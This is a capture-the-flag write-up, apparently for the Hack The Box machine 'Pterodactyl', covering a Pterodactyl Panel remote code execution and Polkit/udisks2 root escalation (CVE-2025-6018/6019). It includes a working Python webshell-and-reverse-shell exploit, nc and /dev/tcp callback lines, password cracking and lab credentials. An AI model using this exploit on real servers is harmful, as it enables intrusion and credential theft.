


## Summary
The **Pterodactyl** target was fully compromised, resulting in **root-level access**. The attack chain began with web enumeration and virtual host discovery, progressed through a **known Pterodactyl Panel remote code execution vulnerability**, followed by **database credential extraction**, **password cracking**, and **SSH access as a local user**. Privilege escalation was achieved by chaining **Polkit session trust bypass (CVE-2025-6018)** with an **udisks2 filesystem mounting vulnerability (CVE-2025-6019)**.

The engagement demonstrates how a single exposed management panel combined with weak credential hygiene and misconfigured privilege boundaries can lead to total system compromise.
## Target Information
- **Machine Name:** Pterodactyl
- **Operating System:** Linux (Kernel 6.4.x)
- **Attack Type:** Web → RCE → Credential Reuse → Polkit + udisks Privilege Escalation
- **Result:** Full system compromise (root)
## 1. Initial Enumeration
### Nmap Scan

```bash
nmap -sV -sC 10.129.74.160 -p- -Pn -A -vv -T4

Not shown: 65309 filtered tcp ports (no-response), 222 filtered tcp ports (admin-prohibited)
PORT     STATE  SERVICE    REASON         VERSION
22/tcp   open   ssh        syn-ack ttl 63 OpenSSH 9.6 (protocol 2.0)
| ssh-hostkey: 
|   256 a3:74:1e:a3:ad:02:14:01:00:e6:ab:b4:18:84:16:e0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOouXDOkVrDkob+tyXJOHu3twWDqor3xlKgyYmLIrPasaNjhBW/xkGT2otP1zmnkTUyGfzEWZGkZB2Jkaivmjgc=
|   256 65:c8:33:17:7a:d6:52:3d:63:c3:e4:a9:60:64:2d:cc (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJTXNuX5oJaGQJfvbga+jM+14w5ndyb0DN0jWJHQCDd9
80/tcp   open   http       syn-ack ttl 63 nginx 1.21.5
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://pterodactyl.htb/
|_http-server-header: nginx/1.21.5
443/tcp  closed https      reset ttl 63
8080/tcp closed http-proxy reset ttl 63
OS fingerprint not ideal because: Didn't receive UDP response. Please try again with -sSU
Aggressive OS guesses: Linux 5.0 - 5.14 (98%), Linux 4.15 - 5.19 (94%), Linux 2.6.32 - 3.13 (93%), Linux 5.0 (92%), OpenWrt 22.03 (Linux 5.10) (92%), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3) (92%), Linux 3.10 - 4.11 (91%), Linux 3.2 - 4.14 (90%), Linux 4.15 (90%), Linux 2.6.32 - 3.10 (90%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.95%E=4%D=2/8%OT=22%CT=443%CU=%PV=Y%DS=2%DC=T%G=N%TM=69887211%P=x86_64-pc-linux-gnu)
SEQ(SP=106%GCD=1%ISR=109%TI=Z%CI=Z%TS=A)
SEQ(SP=106%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)
OPS(O1=M542ST11NW7%O2=M542ST11NW7%O3=M542NNT11NW7%O4=M542ST11NW7%O5=M542ST11NW7%O6=M542ST11)
WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)
ECN(R=Y%DF=Y%TG=40%W=FAF0%O=M542NNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=Y%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=Y%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=40%CD=S)

Uptime guess: 15.647 days (since Fri Jan 23 14:51:46 2026)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: All zeros

TRACEROUTE (using port 8080/tcp)
HOP RTT      ADDRESS
1   87.54 ms 10.10.16.1
2   87.68 ms 10.129.74.160

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 06:22
Completed NSE at 06:22, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 06:22
Completed NSE at 06:22, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 06:22
Completed NSE at 06:22, 0.00s elapsed
Read data files from: /usr/share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 258.93 seconds
           Raw packets sent: 131047 (5.770MB) | Rcvd: 349 (27.420KB)

```
**Key findings:**

| Port | Service    | Version      |
| ---- | ---------- | ------------ |
| 22   | SSH        | OpenSSH 9.6  |
| 80   | HTTP       | nginx 1.21.5 |
| 443  | HTTPS      | Closed       |
| 8080 | HTTP-Proxy | Closed       |
Other filtered ports 

```bash
nmap -p 25565,25575,25577,19132 10.129.74.160                                                           
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-08 07:12 EST
Nmap scan report for pterodactyl.htb (10.129.74.160)
Host is up (0.049s latency).

PORT      STATE    SERVICE
19132/tcp filtered unknown
25565/tcp filtered minecraft
25575/tcp filtered unknown
25577/tcp filtered unknown

```


Other subdomain and stack revealed from the **changelog**.**txt** 


### Virtual Host & Subdomain Enumeration

Using **ffuf** with host header fuzzing:

gobuster revelead some useful directories  

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
-u http://10.129.74.160/ \
-H "Host: FUZZ.pterodactyl.htb" \
-fs 145

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.74.160/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.pterodactyl.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 145
________________________________________________

panel                   [Status: 200, Size: 1897, Words: 490, Lines: 36, Duration: 470ms]
:: Progress: [4989/4989] :: Job [1/1] :: 884 req/sec :: Duration: [0:00:04] :: Errors: 0 ::

```
**Discovered subdomain:**
```bash
panel.pterodactyl.htb
```

### Web Application Analysis
### Technology Stack Identification
Accessing application assets revealed:
- **Backend:** PHP 8.4.8
- **Framework:** Laravel
- **Database:** MariaDB / MySQL
- **Panel Software:** Pterodacty
```bash
curl -i http://10.129.74.160/locales/locale.json \
-H "Host: panel.pterodactyl.htb"
HTTP/1.1 200 OK
Server: nginx/1.21.5
Content-Type: application/json
Transfer-Encoding: chunked
Connection: keep-alive
X-Powered-By: PHP/8.4.8
Cache-Control: max-age=3600, public, stale-while-revalidate=86400
ETag: 64df9307a330bda62d6d4adc834af815
Date: Sun, 08 Feb 2026 12:25:29 GMT
Set-Cookie: XSRF-TOKEN=eyJpdiI6IjBBbkVsb0w2THpNa0NvMW5FWUh0QVE9PSIsInZhbHVlIjoiaU1jL2xSNklhUGFlSnpGbytpdmNxUXpzRmxpT3hCWUgwLy9rcFhqRm9HMTBnNFVCc1ZyR3N4VEpITHQ4ZHRGN3hjc3NwQWhzemM2THJPazNzR2RWWGtyVEF0UFZhZkdJVm15REgwTDQ4eFN4THBDU1c5NEo2Z1psbHY0NENLbVoiLCJtYWMiOiJlZDQ3OGQwMjIyMDk1ZTkxMzJhODI0M2ViNjg5ZGVhY2ZkY2MxNWY5MzlhNzdjZmFiOTFmYjAwM2M4OTU5YzNjIiwidGFnIjoiIn0%3D; expires=Mon, 09 Feb 2026 00:25:29 GMT; Max-Age=43200; path=/; samesite=lax
Set-Cookie: pterodactyl_session=eyJpdiI6ImhxRE94Q2NZVXR4TDA4bDA4WWhHckE9PSIsInZhbHVlIjoiNjRlN1FzakNHSTJHK2NZTUcvSWV6a1d2dGZ0Nm1qWlVRYjRZR0JoL2F0OWl5bm1iZ2JxeGpCV3NyRjFudmthMXo2RU1mVFhaaUljVnEzaGlxblI5dG5obVZXQ0cxSWxhK2dGT3VDMHN0bEwwRHBFTUxGbUV5aUpIMjR1L3IyMzQiLCJtYWMiOiI3MzQzMTMzZDBjZGU1MDU5OWUyOTQwMDg3NjEwNWFlZTJhNjMyMzY0NjFlOTkwYWU2ZGZjYTgyM2ZlNTExNzhkIiwidGFnIjoiIn0%3D; expires=Mon, 09 Feb 2026 00:25:29 GMT; Max-Age=43200; path=/; httponly; samesite=lax

{"":{"":[]}}
```
### Known Vulnerability Discovery
A publicly available exploit scanner confirmed that the panel was vulnerable to a known **Pterodactyl RCE**.
https://github.com/exeller56/Pterodactyl-Exploit
```bash
 go run main.go -scan http://panel.pterodactyl.htb                                                       
 
    _/_/_/    _/                      _/                                                                    
   _/    _/  _/    _/_/_/    _/_/_/  _/  _/  _/      _/      _/    _/_/_/  _/    _/                         
  _/_/_/    _/  _/    _/  _/        _/_/    _/      _/      _/  _/    _/  _/    _/                          
 _/    _/  _/  _/    _/  _/        _/  _/    _/  _/  _/  _/    _/    _/  _/    _/                           
_/_/_/    _/    _/_/_/    _/_/_/  _/    _/    _/      _/        _/_/_/    _/_/_/                            
                                                                             _/                             
                                                                        _/_/                                
                                                                                                            
                                                                                                            
                           Pterodactyl Panel RCE Exploit
                                                                                                            
                                Made by exeller 56
                                                                                                            
 Target is vulnerable! Extracted data: 
Host: 127.0.0.1
Port: 3306
Database: panel
Username: pterodactyl
Password: PteraPanel

```

This provided **direct database credentials**, indicating a critical misconfiguration.
Created Custom exploit to achieve remote code execution

```python
import sys, subprocess, urllib.parse

if len(sys.argv) < 3:
    print("Usage:")
    print(f"  {sys.argv[0]} <host> <command>          # run a command")
    print(f"  {sys.argv[0]} <host> <lhost> <lport>    # reverse shell")
    exit(1)

host = sys.argv[1]
PEAR = "../../../../../usr/share/php/PEAR"
TMP  = "../../../../../tmp"

def curl_raw(url, timeout=None, capture=False):
    """Run curl with -g (no glob) passing URL as-is."""
    cmd = ["curl", "-s", "-g"]
    if timeout:
        cmd += ["-m", str(timeout)]
    cmd.append(url)
    if capture:
        return subprocess.run(cmd, capture_output=True, text=True)
    else:
        subprocess.run(cmd, stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)

if len(sys.argv) == 4:
    # ── Reverse shell mode ──
    lhost, lport = sys.argv[2], sys.argv[3]

    # Stage 1: Write webshell via pearcmd config-create
    # MUST use <?= (short echo tag) NOT <?php (which needs real whitespace)
    # <?=extract($_GET).system($z)?> runs extract first (creates $z from ?z=),
    # then system($z) runs the command. The . operator evaluates both sides.
    php_ws = '<?=extract($_GET).system($z)?>'

    url1 = (
        f"http://{host}/locales/locale.json"
        f"?+config-create+/"
        f"&locale={PEAR}&namespace=pearcmd"
        f"&/{php_ws}+/tmp/ws2.php"
    )
    print(f"[*] Planting webshell (<?= tag) ...")
    curl_raw(url1)

    # Verify webshell works
    verify_url = (
        f"http://{host}/locales/locale.json"
        f"?locale={TMP}&namespace=ws2"
        f"&z={urllib.parse.quote('id')}"
    )
    print(f"[*] Verifying webshell ...")
    r = curl_raw(verify_url, capture=True)
    if r and "uid=" in r.stdout:
        print(f"[+] Webshell works! Got: uid=...")
    else:
        print(f"[-] Webshell verification unclear, trying anyway ...")

    # Stage 2: Fire reverse shell methods via the webshell
    shells = [
        ("mkfifo+nc",
         f"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc {lhost} {lport} >/tmp/f"),
        ("python3",
         f"python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"{lhost}\",{lport}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;pty.spawn(\"bash\")'"),
        ("bash /dev/tcp",
         f"bash -c 'bash -i >& /dev/tcp/{lhost}/{lport} 0>&1'"),
    ]

    for name, cmd in shells:
        encoded = urllib.parse.quote(cmd)
        url2 = (
            f"http://{host}/locales/locale.json"
            f"?locale={TMP}&namespace=ws2"
            f"&z={encoded}"
        )
        print(f"[*] Trying {name} → {lhost}:{lport} ...")
        curl_raw(url2, timeout=5)

    print("[+] All methods sent – check your listener!")

elif len(sys.argv) == 3:
    # ── Single command mode ──
    command = sys.argv[2]
    # With subprocess (no shell), no need for backslash before $
    payload = command.replace(' ', '${IFS}')

    print(f"[*] Executing: {command}\n")

    # Stage 1: write payload via pearcmd
    curl_raw(
        f"http://{host}/locales/locale.json?+config-create+/"
        f"&locale={PEAR}&namespace=pearcmd"
        f"&/<?=system('{payload}')?>+/tmp/payload.php"
    )

    # Stage 2: include and execute, capture output
    r = curl_raw(
        f"http://{host}/locales/locale.json?locale={TMP}&namespace=payload",
        capture=True
    )

    if r:
        raw = r.stdout
        # Extract clean output: find content that's repeated in PEAR config paths
        # The command output gets embedded as directory values
        import re
        # Pattern: the output appears between the PHP tag close and /pear
        matches = re.findall(r'\?>/([^/]+)/pear', raw)
        if matches:
            # All matches should be the same (command output)
            output = matches[0].strip()
            if output:
                print(output)
                print()
                exit(0)

        # Fallback: show non-noise lines
        for line in raw.split('\n'):
            line = line.strip()
            if not line:
                continue
            if any(s in line for s in [
                'PEAR', 'pear', 'locale=', 'namespace=', '<?=', '<?php',
                '#PEAR_Config', 'DOCTYPE', '<html', '<head', '<meta',
                '<title', '<style', '<body', '<div', '</div', '</body',
                '</html', 'Server Error', 'normalize', 'CONFIGURATION',
                '====', 'not set', 'Config', 'system#', 'Filename',
                'Successfully', 'bg-', 'text-', 'border-', 'font-',
                'shadow', 'overflow', 'padding', 'margin', 'width',
                'height', 'keyframes', 'media', 'grid', 'flex',
                'antialiased', 'tracking', 'display'
            ]):
                continue
            print(line)
```

I tried several other methods to get reverse shell using other none worked but the base64 works perfectly notably

```bash
python3 pi.py " rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.17.2 4444 >/tmp/f"  
1
```
this shell indeed worked but its suddenly closes after first command which wasnt reliable at al


```bash
wwrun@pterodactyl:/home/phileasfogg3> ls
ls
bin
user.txt
wwwrun@pterodactyl:/home/phileasfogg3> cat user.txt
cat user.txt
96a6512d272bdf131d4a309d51bdddbd

```
Shell access confirmed and **user** **flag** has been obtained 

## Credential Extraction

```bash
wwwrun@pterodactyl:/var/www/pterodactyl/public> mysql -h 127.0.0.1 -u pterodactyl -p'PteraPanel' -e "USE panel; DESCRIBE users;"
<ctyl -p'PteraPanel' -e "USE panel; DESCRIBE users;"
mysql: Deprecated program name. It will be removed in a future release, use '/usr/bin/mariadb' instead
Field   Type    Null    Key     Default Extra
id      int(10) unsigned        NO      PRI     NULL    auto_increment
external_id     varchar(191)    YES     MUL     NULL
uuid    char(36)        NO      UNI     NULL
username        varchar(191)    NO      UNI     NULL
email   varchar(191)    NO      UNI     NULL
name_first      varchar(191)    YES             NULL
name_last       varchar(191)    YES             NULL
password        text    NO              NULL
remember_token  varchar(191)    YES             NULL
language        char(5) NO              en
root_admin      tinyint(3) unsigned     NO              0
use_totp        tinyint(3) unsigned     NO              NULL
totp_secret     text    YES             NULL
totp_authenticated_at   timestamp       YES             NULL
gravatar        tinyint(1)      NO              1
created_at      timestamp       YES             NULL
updated_at      timestamp       YES             NULL
```
Extracted user password hashes from the `users` table:
```bash
mysql: Deprecated program name. It will be removed in a future release, use '/usr/bin/mariadb' instead
*************************** 1. row ***************************
username: headmonitor
   email: headmonitor@pterodactyl.htb
password: $2y$10$3WJht3/5GOQmOXdljPbAJet2C6tHP4QoORy1PSj59qJrU0gdX5gD2
*************************** 2. row ***************************
username: phileasfogg3
   email: phileasfogg3@pterodactyl.htb
password: $2y$10$PwO0TBZA8hLB6nuSsxRqoOuXuGi3I4AVVN2IgE7mZJLzky1vGC9Pi
wwwrun@pterodactyl:/var/www/pterodactyl/public> 

```
#### Password Cracking
Using **hashcat (bcrypt)**:

```bash
cat hash.txt                                                                                            
headmonitor:$2y$10$3WJht3/5GOQmOXdljPbAJet2C6tHP4QoORy1PSj59qJrU0gdX5gD2
phileasfogg3:$2y$10$PwO0TBZA8hLB6nuSsxRqoOuXuGi3I4AVVN2IgE7mZJLzky1vGC9Pi

┌──(penguin㉿0XFAF0)-[~/CPTS/Machines/S10/Pterodactyl-Exploit]
└─$ hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt --username                                    
hashcat (v7.1.2) starting

$2y$10$PwO0TBZA8hLB6nuSsxRqoOuXuGi3I4AVVN2IgE7mZJLzky1vGC9Pi:!QAZ2wsx

```

Recovered credentials:
**phileasfogg3:!QAZ2wsx**


```bash
phileasfogg3@pterodactyl:~> ls
bin  pri.bh  user.txt
phileasfogg3@pterodactyl:~> 

```

```bash
ssh phileasfogg3@10.129.74.160
```
User access was successfully obtained.
## Privilege Escalation

Checking sudo privileges:
```bash
phileasfogg3@pterodactyl:~> sudo -l
[sudo] password for phileasfogg3: 
Matching Defaults entries for phileasfogg3 on pterodactyl:
    always_set_home, env_reset, env_keep="LANG LC_ADDRESS LC_CTYPE LC_COLLATE LC_IDENTIFICATION
    LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE
    LINGUAS XDG_SESSION_COOKIE", !insults, secure_path=/usr/sbin\:/usr/bin\:/sbin\:/bin, targetpw

User phileasfogg3 may run the following commands on pterodactyl:
    (ALL) ALL
phileasfogg3@pterodactyl:~> 


```
However, privilege escalation was initially restricted due to **Polkit remote-session trust limitations**.
```bash
phileasfogg3@pterodactyl:~> id
uid=1002(phileasfogg3) gid=100(users) groups=100(users)
phileasfogg3@pterodactyl:~> uname -a
Linux pterodactyl 6.4.0-150600.23.65-default #1 SMP PREEMPT_DYNAMIC Tue Aug 12 00:37:41 UTC 2025 (aedcb04) x86_64 x86_64 x86_64 GNU/Linux
phileasfogg3@pterodactyl:~> 

```

```bash
phileasfogg3@pterodactyl:~> systemctl list-units --type=service

 UNIT                                     LOAD   ACTIVE SUB     DESCRIPTION                               >
  apparmor.service                         loaded active exited  Load AppArmor profiles                     
  auditd.service                           loaded active running Security Auditing Service                  
  augenrules.service                       loaded active exited  auditd rules generation                    
  boot-sysctl.service                      loaded active exited  Apply Kernel Variables for 6.4.0-150600.23>
  chronyd.service                          loaded active running NTP client/server                          
  cron.service                             loaded active running Command Scheduler                          
  dbus.service                             loaded active running D-Bus System Message Bus                   
  detect-part-label-duplicates.service     loaded active exited  Detect if the system suffers from bsc#1089>
  dracut-shutdown.service                  loaded active exited  Restore /run/initramfs on shutdown         
  firewalld.service                        loaded active running firewalld - dynamic firewall daemon        
  getty@tty1.service                       loaded active running Getty on tty1                              
  haveged.service                          loaded active running Entropy Daemon based on the HAVEGE algorit>
  irqbalance.service                       loaded active running irqbalance daemon                          
  kbdsettings.service                      loaded active exited  Apply settings from /etc/sysconfig/keyboard
  klog.service                             loaded active exited  Early Kernel Boot Messages
  kmod-static-nodes.service                loaded active exited  Create List of Static Device Nodes
  lvm2-monitor.service                     loaded active exited  Monitoring of LVM2 mirrors, snapshots etc.>
  mariadb.service                          loaded active running MariaDB database server
  nginx.service                            loaded active running The nginx HTTP and reverse proxy server
  nscd.service                             loaded active running Name Service Cache Daemon
  php-fpm.service                          loaded active running The PHP FastCGI Process Manager
  plymouth-quit-wait.service               loaded active exited  Hold until boot process finishes up
  plymouth-quit.service                    loaded active exited  Terminate Plymouth Boot Screen
  plymouth-read-write.service              loaded active exited  Tell Plymouth To Write Out Runtime Data
  polkit.service                           loaded active running Authorization Manager
  postfix.service                          loaded active running Postfix Mail Transport Agent
● pteroq.service                           loaded failed failed  Pterodactyl Queue Worker
  redis@redis.service                      loaded active running Redis instance: redis
  rsyslog.service                          loaded active running System Logging Service
  sshd.service                             loaded active running OpenSSH Daemon
  systemd-journal-flush.service            loaded active exited  Flush Journal to Persistent Storage
  systemd-journald.service                 loaded active running Journal Service
  systemd-logind.service                   loaded active running User Login Management
  systemd-modules-load.service             loaded active exited  Load Kernel Modules
  systemd-random-seed.service              loaded active exited  Load/Save OS Random Seed
  systemd-remount-fs.service               loaded active exited  Remount Root and Kernel File Systems
  systemd-sysctl.service                   loaded active exited  Apply Kernel Variables
  systemd-tmpfiles-setup-dev-early.service loaded active exited  Create Static Device Nodes in /dev gracefu>
  systemd-tmpfiles-setup-dev.service       loaded active exited  Create Static Device Nodes in /dev
  systemd-tmpfiles-setup.service           loaded active exited  Create System Files and Directories
  systemd-udev-trigger.service             loaded active exited  Coldplug All udev Devices
  systemd-udevd.service                    loaded active running Rule-based Manager for Device Events and F>
  systemd-update-utmp.service              loaded active exited  Record System Boot/Shutdown in UTMP
  systemd-user-sessions.service            loaded active exited  Permit User Sessions
  systemd-vconsole-setup.service           loaded active exited  Virtual Console Setup
  udisks2.service                          loaded active running Disk Manager
  user-runtime-dir@1002.service            loaded active exited  User Runtime Directory /run/user/1002
  user@1002.service                        loaded active running User Manager for UID 1002
  vgauthd.service                          loaded active running open-vm-tools: vgauth service for virtual >
  vmtoolsd.service                         loaded active running open-vm-tools: vmtoolsd service for virtua>
  wicked-dhcp-renew.service                loaded active exited  Force DHCP lease renewal for eth0 (wicked)
  wicked.service                           loaded active exited  wicked managed network interfaces
  wickedd-auto4.service                    loaded active running wicked AutoIPv4 supplicant service
  wickedd-dhcp4.service                    loaded active running wicked DHCPv4 supplicant service
  wickedd-dhcp6.service                    loaded active running wicked DHCPv6 supplicant service
  wickedd-nanny.service                    loaded active running wicked network nanny service
  wickedd.service                          loaded active running wicked network management service daemon


```


```bash
phileasfogg3@pterodactyl:~> udisksctl status
MODEL                     REVISION  SERIAL               DEVICE
-----------------------------------------------------------------------VMware Virtual disk       2.0       6000c29175f310fa1f3ae999e6550be0 sda     
phileasfogg3@pterodactyl:~> udisksctl loop-setup --file /etc/passwd
Error opening (rw) file /etc/passwd: Permission denied
phileasfogg3@pterodactyl:~> 

```

From the above enum we saw from the above we have polkit running . let see why we are not authorized to do such action


```bash
phileasfogg3@pterodactyl:~> loginctl session-status
2 - phileasfogg3 (1002)
           Since: Mon 2026-02-09 09:37:35 EET; 1min 29s ago
          Leader: 28604 (sshd)
             TTY: pts/0
          Remote: 10.10.17.2
         Service: sshd; type tty; class user
           State: active
            Idle: no
            Unit: session-2.scope
                  ├─10259 "sshd: phileasfogg3@pts/0"
                  ├─10260 -bash
                  ├─10372 loginctl session-status
                  ├─10373 less
                  └─28604 "sshd: phileasfogg3 [priv]"
phileasfogg3@pterodactyl:~> 
```
We can see we are on remote session which means Polkit considered this has remote login which are low trust
then we are not assigned to any seat 0 , which prevent any privelege escalation

We need to change that 

```bash
phileasfogg3@pterodactyl:~> nano ~/.pam_environment
phileasfogg3@pterodactyl:~> cat ~/.pam_environment
XDG_SEAT=seat0
XDG_VTNR=1
phileasfogg3@pterodactyl:~> 

```

we create PAM env file and then re-login to the ssh
verfiy privelege 
```bash
ssh phileasfogg3@10.129.32.240
(phileasfogg3@10.129.32.240) Password: 
Have a lot of fun...
Last login: Mon Feb  9 09:37:36 2026 from 10.10.17.2
Last login: Mon Feb 9 09:44:41 2026 from 10.10.17.2
phileasfogg3@pterodactyl:~> loginctl session-status
11 - phileasfogg3 (1002)
           Since: Mon 2026-02-09 09:44:40 EET; 13s ago
          Leader: 10506 (sshd)
            Seat: seat0; vc1
             TTY: pts/0
          Remote: 10.10.17.2
         Service: sshd; type tty; class user
           State: active
            Idle: no
            Unit: session-11.scope
                  ├─10506 "sshd: phileasfogg3 [priv]"
                  ├─10524 "sshd: phileasfogg3@pts/0"
                  ├─10525 -bash
                  ├─10572 loginctl session-status
                  └─10573 less
phileasfogg3@pterodactyl:~> 

```

Sucessfully we exploited CVE-2025-6018,Polkit authorization restrictions were successfully bypassed.

**udisks Privilege Escalation (CVE-2025-6019)**

**enumerating udisctl**
```BASH
hileasfogg3@pterodactyl:~> udisksctl --version
Unknown command `--version'
Usage:
  udisksctl COMMAND

Commands:
  help            Shows this information
  info            Shows information about an object
  dump            Shows information about all objects
  status          Shows high-level status
  monitor         Monitor changes to objects
  mount           Mount a filesystem
  unmount         Unmount a filesystem
  unlock          Unlock an encrypted device
  lock            Lock an encrypted device
  loop-setup      Set-up a loop device
  loop-delete     Delete a loop device
  power-off       Safely power off a drive
  smart-simulate  Set SMART data for a drive

Use "udisksctl COMMAND --help" to get help on each command.

phileasfogg3@pterodactyl:~> ps aux | grep udisksd
root     10438  0.2  0.8 487880 16940 ?        Ssl  10:15   0:00 /usr/lib/udisks2/udisksd
phileas+ 10448  0.0  0.1   8380  2176 pts/0    S+   10:15   0:00 grep --color=auto udisksd
phileasfogg3@pterodactyl:~> 

```

An XFS filesystem image containing a malicious payload was transferred to the target and mounted using `udisksctl`.

The exploit abused unsafe filesystem mounting behavior, resulting in **root code execution**.
 
```bash
 get http://10.10.16.172/xfs.image
--2026-02-09 10:26:15--  http://10.10.16.172/xfs.image
Connecting to 10.10.16.172:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 314572800 (300M) [application/octet-stream]
Saving to: ‘xfs.image’

xfs.image                  100%[========================================>] 300.00M  11.5MB/s    in 32s     

2026-02-09 10:26:48 (9.27 MB/s) - ‘xfs.image’ saved [314572800/314572800]

 ```

SImiliar we need to transfer the explioit as well
and do small editing on the exploit
https://github.com/guinea-offensive-security/CVE-2025-6019

since the mkfs,xfs is only need to create filesystem and vulnerablities is is in mounting filesystem and our exploit already created the xfs.image  so we need to edit one line from the exploit


```bash
bin  inst-sys  root.txt
bash-5.3# cat root.txt
d0b7f5db058b26368ec42a9e9d269572
bash-5.3# 

```


